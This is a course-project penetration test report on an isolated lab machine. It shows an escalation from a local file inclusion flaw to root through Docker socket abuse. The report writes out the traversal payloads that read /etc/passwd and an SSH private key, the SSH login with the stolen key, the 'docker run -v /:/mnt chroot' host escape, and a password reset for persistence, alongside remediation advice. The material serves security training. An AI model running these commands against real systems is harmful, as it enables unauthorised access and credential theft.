










# Report: Docker Container Security and Privilege Escalation
### Local Privilege Escalation through Insecure Container Socket Volume Exposure

**Submitted as the project of the course:** Advanced Diploma in Cyber Defence
**By:** Ananthakrishnan K S
**RedTeam Hacker Academy, Kochi** · Kaloor, Ernakulam 682017

---

> ℹ️ **Editorial note:** The target host is referenced as both `192.168.1.6` and `192.168.1.9` across different sections of the original report (the initial scans and SSH session use `.6`; the `gobuster`/LFI commands use `.9`). This inconsistency exists in the source material — left as-is below rather than silently corrected, since I can't confirm which IP is authoritative. Worth resolving before this goes fully public.

---

## 1. Introduction

### 1.1 Objective

This assessment performs an internal security evaluation and penetration test against an assigned lab target network. The engagement simulates an internal threat vector, demonstrating how an escalation sequence progresses from low-privileged initial access to full system compromise, and documents the process in a structured penetration test report.

### 1.2 Requirements

The report includes:
- A high-level summary and recommendations (non-technical)
- A walkthrough of the methodology and steps taken
- Each finding with screenshots, walkthrough, and proof (root flag)
- Any additional items observed during testing

### 1.3 High-Level Summary

An internal penetration test was performed against the lab target environment to evaluate misconfigured services and exploit permission flaws while logging administrative control vectors. During testing, a low-privileged shell was used to interact with a high-risk management daemon due to excessive group permissions and a loosely configured application socket. This resulted in full root-level access to the host and successful flag extraction.

### 1.4 Recommendations

- Harden user privilege baselines; restrict access to local application sockets so unprivileged operators cannot reach the underlying OS filesystem.
- Enforce strict group policies — audit and remove non-administrative accounts from privileged groups (e.g. `docker`).
- Run container workloads under rootless namespaces where possible.
- Maintain a regular patch and maintenance cadence to reduce exposure to escalation vectors.

---

## 2. Methodology

A structured penetration testing lifecycle was followed:

```
+------------------------+     +------------------------+     +------------------------+
| Information Gathering | --> |  Service Enumeration   | --> |      Penetration       |
+------------------------+     +------------------------+     +------------------------+
                                                                          |
                                                                          v
+------------------------+     +------------------------+     +------------------------+
|     House Cleaning     | <-- |    Maintaining Access  | <-- |    Post-Exploitation   |
+------------------------+     +------------------------+     +------------------------+
```

### 2.1 Information Gathering
Local subnet mapping was used to identify live targets on the network.

- **Target workspace network:** `192.168.1.6` (VNX target host)
- **Kali attacking machine:** `192.168.1.11`

### 2.2 Service Enumeration
Focused on identifying running services, processes, and daemons — active local groups, identity permissions, socket access controls, and available compiler binaries — to map potential attack vectors.

### 2.3 Penetration
An offline sideloading channel was used to introduce a lightweight container runtime image onto the target filesystem, mounting the host root partition to break out of the standard sandbox boundary.

### 2.4 Maintaining Access
Root shell access was used to inspect the local shadow file, and to directly reset a system account password to establish a persistent, interactive login path via the GUI.

### 2.5 House Cleaning
After flag verification, staged tar archives were removed from `/tmp`, intermediate container state was torn down, and the workspace was returned to its original baseline.

---

## 3. Lab Assessment — Target: 192.168.1.6 (vnx)

### 3.1 Reconnaissance

An `arp-scan` was run to map live hosts on the subnet:

```
root@kali:/home/kali/Downloads# arp-scan -l
```


An `nmap` scan confirmed two exposed services:

- **Port 22/tcp (SSH):** Running OpenSSH 8.2p1 (Ubuntu) — used for initial low-privileged access.
- **Port 80/tcp (HTTP):** Apache httpd 2.4.41 (Ubuntu) — hosting a local web application.


The web root served the Apache2 default landing page:


A `gobuster` directory scan against the web root found:

| Path | Status | Notes |
|---|---|---|
| `/ctf/` | 301 | Active challenge sub-directory |
| `/server-status` | 403 | Default Apache endpoint, restricted |


Navigating to `/ctf/` revealed a "CTF Portal" application with an explicit hint pointing at a `?page=` parameter:



### 3.2 Local File Inclusion (LFI) in CTF Portal

The `?page=` parameter showed no apparent input sanitation. A directory traversal payload confirmed the flaw:

```
http://192.168.1.9/ctf/?page=../../../../etc/passwd
```

The application rendered the full contents of `/etc/passwd`, revealing a non-administrative local user account: **`vnx`**.


### 3.3 SSH Private Key Extraction via LFI

The same LFI flaw was used to pull the user's private SSH key directly from its default location:

```
http://192.168.1.9/ctf/?page=../../../../home/vnx/.ssh/id_rsa
```

The application returned the unencrypted RSA private key directly in the response.


### 3.4 Staging and Validating the Extracted Key

The key was pulled locally with `curl` and verified:

```bash
curl "http://192.168.1.9/ctf/?page=../../../../home/vnx/.ssh/id_rsa" -o id_rsa
cat id_rsa
```


### 3.5 Remote Session Interactivity and Initial Foothold

With the key permissioned correctly, an SSH session was established as `vnx`:

```bash
chmod 600 id_rsa
ssh -i id_rsa vnx@192.168.1.6
```


### 3.6 Automated Security Auditing via LinPEAS

`linpeas.sh` was transferred to the target's writable `/tmp` directory and executed to systematically enumerate escalation paths:

```bash
scp -i id_rsa linpeas.sh vnx@192.168.1.9:/tmp/linpeas.sh
```




LinPEAS flagged the `vnx` user's membership in the **`docker` group** as a highly severe, direct escalation vector — confirming write access to the root-owned Docker daemon socket.

> **Vulnerability:** Critical — Writable Docker Socket Misconfiguration
> The low-privileged user `vnx` was a member of the local `docker` group. Because the Docker daemon socket (`/var/run/docker.sock`) runs as root, any user able to communicate with it can issue high-level container management requests — including instantiating a container that mounts the host's entire root filesystem (`/`) into the container. Using `chroot`, the shell's root context can then be changed, fully breaking container isolation and granting unrestricted read/write/admin control over the host.
>
> **Fix:** Restrict access to the Docker socket. Audit local group memberships and remove non-administrative accounts from `docker`. Where unprivileged container execution is genuinely required, use a rootless runtime or an authorization wrapper that blocks high-risk flags (`-v`, `--mount`).

For reference, [GTFOBins' `docker` entry](https://gtfobins.org/gtfobins/docker/) documents exactly this escape technique:



---

## 4. Exploitation Framework & Host Breakout

### 4.1 Staging and Sideloading the Sandbox Container Image

The target host had no outbound internet access, so the container image was pulled and packaged locally on Kali, then transferred over the existing SSH foothold:

```bash
docker pull alpine
docker save -o alpine.tar alpine
scp -i id_rsa alpine.tar vnx@192.168.1.9:/tmp/alpine.tar
```



- `docker pull alpine` — pulls a minimal base image to the attacking machine.
- `docker save -o alpine.tar alpine` — packages the image into a portable tar archive.
- `scp ...` — transfers the archive to the target's `/tmp` over the existing SSH session.

### 4.2 Executing Host File System Escape

On the target, the image was loaded into the local Docker cache and used to spawn a container that mounts the host's root filesystem, followed by a `chroot` to escape the container boundary entirely:

```bash
vnx@vnx:/tmp$ ls -al
vnx@vnx:/tmp$ docker load -i /tmp/alpine.tar
vnx@vnx:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt
```



- `docker load -i /tmp/alpine.tar` — extracts the image into the local repository (`alpine:latest`).
- `docker run -v /:/mnt --rm -it alpine chroot /mnt` — spawns an interactive container binding the host's root (`/`) to `/mnt` inside the container; `chroot /mnt` then shifts the shell's root context to the host filesystem, completely breaking out of container isolation.

---

## 5. Post-Exploitation and Flag Retrieval

### 5.1 Flag Extraction

With a root shell on the host confirmed via the escape above, the filesystem was navigated to `/root`, where the objective flag file was located and read:

```bash
root@004fe093d6a7:/# cd /root
root@004fe093d6a7:/root# ls -al
root@004fe093d6a7:/root# cat root.txt
```

**Flag:** `FLAG{docker_socket_is_root}`



### 5.2 Administrative Account Takeover via Live Credential Manipulation

To establish a persistent, interactive login path, the root shell was used to directly reset the `vnx` account password — bypassing the need to crack or read the existing password hash entirely:

```bash
root@004fe093d6a7:/root# passwd vnx
New password: kali
Retype new password: kali
passwd: password updated successfully
```



This directly configures a known credential (`kali`) for interactive access to the host, without needing to identify or crack the original password.

### 5.3 Graphical Console Access Verification

The new credentials were validated by logging in directly at the host's display manager, confirming full, persistent console-level access:

- **Target user:** `vnx`
- **Password used:** `kali`







The display manager processed the credentials and loaded the desktop environment, confirming complete takeover of the host — from an unauthenticated web parameter to full graphical console access.

---

## 6. Vulnerability Summary and Remediation Matrix

| Ref. Section | Severity | Vulnerability | Remediation |
|---|:---:|---|---|
| 3.2 | 🔴 Critical | Local File Inclusion (LFI) via `?page=` parameter | Enforce an explicit whitelist for allowed file rendering paths. Disable dynamic path concatenation in the backend application logic. |
| 3.3 | 🟠 High | Exposed SSH Private Key (`id_rsa`) | Remove sensitive SSH private keys from web-accessible directories. Enforce MFA or passphrase-protected keys for all active keypairs. |
| 3.6 | 🟠 High | Writable Docker Socket Misconfiguration | Restrict local Docker socket access to authorized administrative accounts only. Transition to a rootless container runtime to eliminate host escape vectors. |

---

## 🧠 Skills Demonstrated

`Web Application Testing` · `Local File Inclusion Exploitation` · `Linux Privilege Escalation` · `Container Security` · `Docker Socket Abuse` · `Automated Enumeration (LinPEAS)` · `Persistence Techniques` · `Technical Report Writing`

---

## ⚠️ Disclaimer

This assessment was performed against an **isolated, purpose-built lab environment** as part of a structured cybersecurity training program. All techniques are documented for educational purposes. Do not use these techniques against systems you do not own or have explicit written authorization to test.

---

<div align="center">

**Ananthakrishnan K S** — Aspiring Penetration Tester / Security Researcher
[GitHub](https://github.com/ananthakrishnanks347-maker) · [TryHackMe](https://tryhackme.com/p/Ananthakrishnank.s) · [LinkedIn](https://www.linkedin.com/in/ananthakrishnan-ks-)

</div>
